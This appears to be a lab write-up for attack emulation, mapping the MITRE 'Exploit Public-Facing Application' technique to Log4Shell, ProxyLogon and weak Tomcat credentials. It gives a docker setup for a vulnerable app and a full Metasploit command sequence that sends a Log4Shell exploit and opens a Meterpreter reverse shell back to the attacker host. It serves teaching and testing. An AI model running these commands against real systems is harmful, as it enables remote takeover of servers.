 # **Initial Access:**

\[ T0819 ] <https://attack.mitre.org/techniques/T0819/> 


## Objective:

The goal of this step is for the attacker to gain initial access to the victim's network by exploiting a vulnerability in an application or service that is exposed to the internet.


## MITRE Technique: T0819 - Exploit Public-Facing Application

This technique involves using an exploit to take advantage of a weakness in an application that is accessible from the internet. This could be a web server, web application, or any other service that can be reached from outside the organization's network.


## Tools/Services:

1. **Metasploit Framework:** A powerful tool used for developing and executing exploit code against a remote target machine. It includes a large collection of exploits, payloads, and auxiliary modules.

2. **Burp Suite:** A web vulnerability scanner and penetration testing tool that helps in identifying and exploiting web application vulnerabilities.


## Scenarios:

As this step in the scenario is, essentially, setting up a vulnerable public-facing service, we could do any of the following:


### **1 - CVE-2021-44228 (Log4Shell)**

#### **Description:**

The Log4Shell vulnerability affects the Apache Log4j 2 library, which is widely used for logging in Java applications. By sending a specially crafted request, an attacker can trigger the vulnerability to execute arbitrary code on the server.


#### **Tools/Services:**

- **Metasploit Framework:** Contains a module specifically for exploiting the Log4Shell vulnerability.

- **Python:** Can be used to craft and send the malicious request if you prefer a custom script.


### **2 - CVE-2021-26855 (ProxyLogon)**

#### **Description:**

The ProxyLogon vulnerability allows an unauthenticated attacker to execute arbitrary commands on a vulnerable Microsoft Exchange Server by sending a specially crafted request. This can result in remote code execution (RCE) and full control of the server.


#### **Tools/Services:**

- **Metasploit Framework:** Contains a module specifically for exploiting the ProxyLogon vulnerability.

- **Exchange Server:** A server running Microsoft Exchange that is vulnerable to this specific exploit.


### **3 - Exploiting Weak or Default Credentials in Apache Tomcat**

#### **Description:**

Apache Tomcat is an open-source implementation of the Java Servlet, JavaServer Pages, and Java Expression Language technologies. It's widely used to deploy Java-based web applications. Attackers often exploit weak or default credentials (admin/admin) to gain access to the Tomcat Manager application, which can be used to deploy or manage web applications on the server.


#### **Tools/Services:**

- **Metasploit Framework:** Contains modules for brute-forcing login credentials specifically for Tomcat.

- **Hydra:** A popular tool for brute-forcing login credentials for web applications.

- **Target Service:** Apache Tomcat with the Tomcat Manager application.


## Applying scenarios:

#### Log4Shell Attack - How it works

1. **Vulnerability Identification**: The Log4j library is used extensively in Java applications for logging purposes. A flaw in the JNDI (Java Naming and Directory Interface) lookup functionality allows remote code execution by injecting a JNDI URL into a log message.

2. **Exploit Execution**: The attacker sends a request containing a malicious JNDI URL. When the vulnerable application logs this request, the JNDI lookup mechanism fetches and executes the code from the attacker-controlled server.

3. **Remote Code Execution**: The code fetched via the JNDI URL is executed on the target server, giving the attacker control over the system. This can be used to deploy further payloads, access sensitive information, or pivot to other parts of the network.


#### Log4Shell Attack - Steps to Perform the Attack

#### **Prerequisites**

- Docker installed on the host machine.

- Metasploit framework installed on the attacker machine.


#### **Step 1: Setup the Vulnerable Application**

1. **Pull and Run the Docker Container** Execute the following command to run the vulnerable application with a volume connected to `/` of the host machine:

```
# super user privileges
sudo su
# start Docker container with the vulnerable application
docker run --name vulnerable-app --network host -v /:/root/ ghcr.io/christophetd/log4shell-vulnerable-app\@sha256:6f88430688108e512f7405ac3c73d47f5c370780b94182854ea2cddc6bd59929

```
**Explanation**:

- \--network host: Connects the container to the host's network.

- -v /:/root/: Mounts the host's root directory to the container's /root/ directory, giving access to all host data and simulating an application that runs in the target machine.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe_YsFlcVhkvd6jpqsZYdJ3L5zQK-hhJ0moP6OwYv9Pl-hv2vrtN-yM44ZBlZzpdbRJT268l61LruQuAE2HX0xNmi4A3tSabEML_M_JDQ1AE4CgCPcr-kJMnp7Z3BeaqFfKQH79GNI3E_R0KfN3vIiihEbL?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 3**: Step 1 - Log4Shell attack.


#### **Step 2: Exploit the Vulnerability using Metasploit**

1. **Start Metasploit** Launch the Metasploit console in the attacker machine.

2. **Select the Log4Shell Exploit Module** Use the Log4Shell exploit module.

3. **Set the Target and Payload** Configure the target URL and the payload for the exploi.:

4. **Execute the Exploit** Run the exploit to send the malicious request.

```
# step 1
sudo msfconsole
# step 2
use exploit/multi/http/log4shell_header_injection  
# step 3
setg HTTP_HEADER X-Api-Version
setg RHOSTS <target-ip>  # 10.208.89.15
setg RPORT <target-port> # 8080
setg SRVHOST <host-server-ip> # 10.208.5.100
setg SRVPORT <host-server-port> # 1389
setg TARGETURI <target url> # /
setg HTTP_SRVPORT <target http_port> # 8080
setg LHOST <listening ip - host ip> # 10.208.5.100
setg payload java/meterpreter/reverse_tcp
#step 4
exploit


```
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXd6ZNXxMwob6Oi0GboJXDz-WnOkLEp1GR92mlkRGohPGSF0x2TzQOh6Pt_rmRmKk-6X0OwH0zdGteIvjM8qk-U2E9nxbCyJXfkYM-Of-rWkVK-QUTSiVPFTivQ25bfrWxZbwJDtV4rvuEafdnzNnUZfZ9Ny?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 4:** Log4Shell exploit options after setting.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXffUB-GmO40IUt7r4_cqAMCPdctShY55pK5FiJmTDFndtP0R5NYD0gOQrRvX-LLOIPQhp2AP7QUrqLYXv8I9YjDQk7A5JNUG3dZrgmQbaB42Awt9lP64yotjy3c3FvGS60edvubjfO9JuqNVBd4cqg2S2s?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 5:** Log4Shell exploit execution with successful remote execution.
